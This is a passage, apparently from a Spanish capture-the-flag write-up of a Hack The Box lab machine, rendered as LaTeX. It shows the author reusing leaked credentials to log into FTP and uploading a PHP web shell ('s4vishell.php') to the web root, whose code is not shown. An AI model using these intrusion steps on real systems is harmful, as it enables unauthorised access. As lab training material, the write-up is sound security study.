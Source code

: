 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\OtherTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
En los bodys encontramos un un mensaje que pregunta para cambiar la contraseña del usuario developer poniendo
y la contraseña original en texto claro.
En el otro mensaje otra vez hablan del servicio \textbf{Pypi}

Con el usuario y contraseña intentamos volver a connectar con \textbf{FTP}

\hypertarget{conexion-con-ftp}{%
\subsection*{Conexion con FTP}\label{conexion-con-ftp}}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.10.10.197}

\OperatorTok{>} \ExtensionTok{Name}\NormalTok{: developer}
\OperatorTok{>} \ExtensionTok{Password}\NormalTok{: contraseña}
\CommentTok{#Output}
\ExtensionTok{Connection}\NormalTok{ succesful}

\FunctionTok{dir}
\BuiltInTok{cd}\NormalTok{ dev}
\FunctionTok{dir}
\end{Highlighting}
\end{Shaded}

Aqui vemos el contenido de la web. Nos creamos la famosa \texttt{s4vishell.php}

\begin{Shaded}
\end{Shaded}

ahora con el ftp subimos el archivo.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{put}\NormalTok{ s4vishell.php}
\CommentTok{#Output}
\ExtensionTok{transfer}\NormalTok{ complete}
\end{Highlighting}
\end{Shaded}

Controlamos en la web si vemos el fichero \texttt{http://sneakycorp.htb/s4vishell.php} pero tenemos un \emph{404 NOT FOUND}.
Intentamos con otras url:
\end{document}
